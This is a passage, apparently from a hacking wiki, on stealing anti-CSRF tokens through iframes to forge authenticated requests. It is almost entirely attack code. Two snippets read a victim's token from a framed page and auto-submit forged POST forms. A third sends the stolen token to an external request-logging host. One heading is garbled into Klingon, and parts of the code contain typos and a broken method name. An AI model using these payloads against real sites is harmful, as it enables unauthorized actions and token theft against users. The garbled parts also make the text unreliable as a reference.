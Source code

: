Next, use JavaScript to automatically submit the form when the iframe has finished loading. This will trigger the POST request with the stolen CSRF token, effectively performing the attack.

Here is an example of the HTML code for the iframe and form:

```html
<iframe id="csrfFrame" src="https://target-website.com/page-with-csrf-token"></iframe>

<script>
    document.getElementById("csrfFrame").onload = function() {
        var csrfToken = document.getElementById("csrfFrame").contentDocument.getElementById("csrfToken").value;
        
        var form = document.createElement("form");
        form.setAttribute("action", "https://target-website.com/vulnerable-endpoint");
        form.setAttribute("method", "POST");
        
        var hiddenField = document.createElement("input");
        hiddenField.setAttribute("type", "hidden");
        hiddenField.setAttribute("name", "csrfToken");
        hiddenField.setAttribute("value", csrfToken);
        
        form.appendChild(hiddenField);
        document.body.appendChild(form);
        
        form.submit();
    };
</script>
```

Remember that CSRF attacks can have serious consequences, so always ensure that you have proper authorization and permission before attempting any such attack.
```html
<iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"></iframe>

<script>
function read()
{
var name = 'admin2';
var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
document.writeln('<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">');
document.writeln('<input id="username" type="text" name="username" value="' + name + '" /><br />');
document.writeln('<input id="token" type="hidden" name="token" value="' + token + '" />');
document.writeln('<input type="submit" name="submit" value="Submit" /><br/>');
document.writeln('</form>');
document.forms[0].submit.click();
}
</script>
```
### **Qap token 'ej legh je 'ej 2 iframes vItlhutlh**
```html
<script>
var token;
function readframe1(){
token = frame1.document.getElementById("profile").token.value;
document.getElementById("bypass").token.value = token
loadframe2();
}
function loadframe2(){
var test = document.getElementbyId("frame2");
test.src = "http://requestb.in/1g6asbg1?token="+token;
}
</script>
```